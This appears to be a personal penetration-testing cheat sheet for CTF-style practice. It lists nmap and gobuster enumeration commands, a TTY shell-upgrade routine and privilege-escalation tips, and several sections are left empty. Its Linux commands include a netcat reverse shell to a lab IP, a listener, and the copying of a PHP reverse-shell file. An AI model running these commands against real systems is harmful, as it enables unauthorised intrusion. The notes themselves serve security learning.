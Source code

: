 # Enumuration

## Check List
* Run *nmap* to enumerate the open ports
* Run *nmap* using the vulnerability scripts to find available vulnerabilities for the target.
* If the target has an active webserver (*80/443/8080*), enumerate the webserver by visiting the server itself and running *gobuster*.
  - If you found any info on the site (i.e. File Sharing Application X 2.22) search for a CVE for this system.
* If the target has SMB (*139/445*), check if it's vulnerable to *Eternal Blue CVE* (*nmap* vulnerability scripts checks for it)
* Run other enum tools 

## NMAP
* *sudo nmap -sC -sV -O -oA \<Output Directory\> \<IP Address\>* - Basic nmap scan for the top ports only. (-sC for default scripts, -sV for version enum, -O for OS enum)
* *sudo nmap -sC -sV -O -p- -oA \<Output Directory\> \<IP Address\>* - Scan for all the ports.
* *nmap --script vuln -oA \<Output Directory\> \<IP Address\>* - Run vulnerability scripts on the target.
* *nmap -sU -oA \<Output Directory\> \<IP Address\>* - Runs a scan for the top UDP ports.

## Fuzzing
* *gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u \<IP Address\>* - You can use another wordlist as well.
* *gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u \<IP Address\> -f* - (-f) is used when the server treats /cgi-bin and /cgi-bin/ differently.
* gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u \<IP Address\>/<Directory>/ -x sh,cgi - Searches for files in a directory and (-x) is used to specify the extension.

## Important Tools
### Enumeration/Recon
* [Nmap](https://nmap.org/): A tool that scans a target and provides a list of the open ports, it can also run many scripts that can enumerate the version, OS, and run multiple checks on known CVEs.
* [Gobuster](https://github.com/OJ/gobuster): A tool that's used for fuzzing a webserver to find directories, files, etc..


# Initial Access
## Privilege Escalation

## Reverse Shells 

## How to brute force

## How to break hash

## Useful Commands (Linux)
* grep/search/etc..
* sudo -l
* whoami
* id
* uname -a
* sudo -i -u scriptmanager
* locate password | grep john
* cp php-reverse-shell.php artisan
* nc -nlvp 4444
* nc -nv 10.10.14.30 4444 -e /bin/sh (Target machine to send a reverse shell)
* chmod +x \<File Name\>
* searchsploit --id httpd


## Useful Commands (Windows)
* grep/search/etc..
* sudo -l
* 
## Useful Information

### Useful Information (General)
* Even if you don't have access to a directory you might have access to the files in that directory. (When you get a 403, try fuzzing inside the directory)
* Some servers treat /Directory and /Directory/ differently, the first one might not be accessible but the second might be, make sure to check both when fuzzing.


### Useful Information (Linux)
* Crontab are a list of commands in Linux that are executed regularly. Making it a useful persistent technique and privilege escalation technique.
* If a reverse shell is executed by a specific user, the shell granted will be of that user's privilege. (i.e. if you executed a shell as root, you will get root shell)
* Sometimes even if you can execute a file, you can read/write to it.
* Sometimes even if you aren't root, you can run specific commands with root privilege.

### Useful Information (Windows)


## Injection Payloads

### SQL

### Command Injection

### XSS


## How to upgrade a shell to a fully interactive TTY.
* *python -c 'import pty; pty.spawn("/bin/bash")'* - Spwans */bin/bash* using Python’s PTY module
* *Ctrl + Z* - Background the shell.
* *stty raw -echo && fg* - Upgrade the local terminal with *stty* and foreground the reverse shell.
* *Double Enter*

## General Major Vulnerabilities
* Eternal Blue (SMB - Windows) (Privileged Access)
* Dirty Cow (Linux - Privilege Escalation)
* Valentine (SSH) (Memory Data Dump)


* [PEASS-ng](https://github.com/carlospolop/PEASS-ng): A tool that tries to find privilege escalation techniques in a machine, can be run after gaining initial access as it needs to be run from the target machine.
